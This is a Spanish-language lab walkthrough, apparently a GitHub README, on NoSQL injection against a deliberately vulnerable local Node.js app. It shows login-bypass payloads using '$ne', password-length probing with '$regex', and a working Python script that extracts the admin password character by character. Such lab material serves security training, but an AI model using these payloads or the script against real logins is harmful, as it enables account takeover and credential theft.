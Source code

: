 # Laboratorio NoSQLI
----
# Preparando el laboratorio

Primero vamos a instalar el siguiente laboratorio del siguiente [repositorio](https://github.com/Charlie-belmer/vulnerable-node-app):

```bash
git clone https://github.com/Charlie-belmer/vulnerable-node-app
```

```bash
cd vulnerable-node-app
```

Ahora vamos a levantar el docker:

```bash
docker-compose up -d
```

Esperamos hasta que termine de hacer pull de las imagenes y armar el contenedor, que va ha estar en el puerto 4000

Cuando haya terminado ahora vamos a dirigirno al navegador para ver que efectivamente este todo cargado:

![Pasted image 20231008223300](https://github.com/LuisRamos98/nosqli.py/assets/55118677/a2c80c72-ef8a-4d62-8499-6cf7642ecc2d)


Ahora que vemos que todo está correcto procedemos hacer click en Populate/Reset DB:

![Pasted image 20231008222920](https://github.com/LuisRamos98/nosqli.py/assets/55118677/265b1a23-53d3-46c9-93bd-c80f9099f737)


![Pasted image 20231008223032](https://github.com/LuisRamos98/nosqli.py/assets/55118677/b65ad7e8-16d6-482e-9474-66776cdd4dd9)


Ahora vamos a login, abrimos el burpsuite y capturamos la petición:

```bash
burpsuite &>/dev/null & disown
```

![Pasted image 20231008223300](https://github.com/LuisRamos98/nosqli.py/assets/55118677/59f03848-8978-4664-9bf0-acd47acfd1db)


![Pasted image 20231008223325](https://github.com/LuisRamos98/nosqli.py/assets/55118677/ee776512-7d01-4421-8358-69aa5d0d55ef)


Ahora haremos ctrl+r para enviarlo al repeater e ir probando las inyecciones nosql.

![Pasted image 20231008223556](https://github.com/LuisRamos98/nosqli.py/assets/55118677/30a758d3-28f2-45dc-b70a-a151030b7be6)


Ahí podemos ver que en el header admite json, la peticion por post es json, y podemos probar dandole click a send viendo la respuesta en la otra ventana, vamos a utilizar lo siguiente para poder entrar como admin:

Vamos a poner en "password": {"$ne":"admin"}, aqui decimos que la contraseña no es igual a admin cual no es la contraseña por ende es verdadero y veremos lo que pasa:

![[Pasted image 20231008223910.png]]

Tambien se puede hacer en el usuario en caso que no lo sepamos, ahora tambien en "usuario":{"$ne":"guest"}, que es un usuario que existe para ver con que usuario nos logea, en este si no tienes la suficiente información vas a logearte en cualquier usuario.

![[Pasted image 20231009070422.png]]

Ahora vamos a ver un ejemplo para poder hacer un scripts en python para poder obtener la contraseña:

Utilizando regex podemos obtener cuanto characteres tienen para poder poner un limite para ello usamos {"$regex":".{30}"} y vamos cambiando el valor hasta que no obtengamos errores:

![Pasted image 20231009070853](https://github.com/LuisRamos98/nosqli.py/assets/55118677/d4271a81-f65d-48d9-8c46-c0362b73c08b)


Vemos que la contraseña no tiene 30 caracteres por lo que vamos a seguir probando hasta encontrar el limite:

![Pasted image 20231009070953](https://github.com/LuisRamos98/nosqli.py/assets/55118677/ac328760-9c2f-4da7-8dbb-2bd27747d81b)


Ahora sabremos que tenemos que limitar para encontrar la password de admin a 24, lo mismo podremos hacer con usuario y van probando, ahora vamos utilizar {"$regex":"^a"} el de aquí no es necesario ver cuando no salga error pero nos servirá para saber como va a funcionar nuestro script, va a ir caracter por  caracter hasta que salga el mensaje "Logged in as user", con ello sabemos que todo ok, y asi va a ir sumando caracteres hasta obtener la contraseña que sabemos que tiene 24 caracteres.

![Pasted image 20231009071957](https://github.com/LuisRamos98/nosqli.py/assets/55118677/f043a50e-d731-48a7-b775-f9c21f8be453)


![Pasted image 20231009071838](https://github.com/LuisRamos98/nosqli.py/assets/55118677/78be60f0-a7a8-4fa1-aa5b-7e72b1103ea8)


Ahora haremos el siguiente script y vemos el resultado:

```bash
nvim nosqli.py
```

```python 
#!/usr/bin/python3

from pwn import *
import time, signal, sys, string, requests


def def_handler(sig,frame):
    print("\n\n[+] Saliendo...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)


login_url = 'http://localhost:4000/user/login'
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():
    
    password = ''
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    sleep(2)

    p2 = log.progress("Password")

    for i in range(0,24):
        for character in characters:
            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password,character)
            headers = {'Content-Type': 'application/json'}
            
            p1.status(post_data)

            r = requests.post(login_url, headers=headers, data=post_data)

            if "Logged in as user" in r.text:
                password+=character
                p2.status(password)
                break

if __name__ == "__main__":

    makeNoSQLI()
```

![Pasted image 20231009072322](https://github.com/LuisRamos98/nosqli.py/assets/55118677/26e4d657-df87-4ba5-9b9f-96882491c271)


Ya tenemos la password de admin vamos a comprobar si es cierto:

![Pasted image 20231009072535](https://github.com/LuisRamos98/nosqli.py/assets/55118677/b3d8f1a0-11d1-4682-8dd5-52f4485c4586)


Fin:)
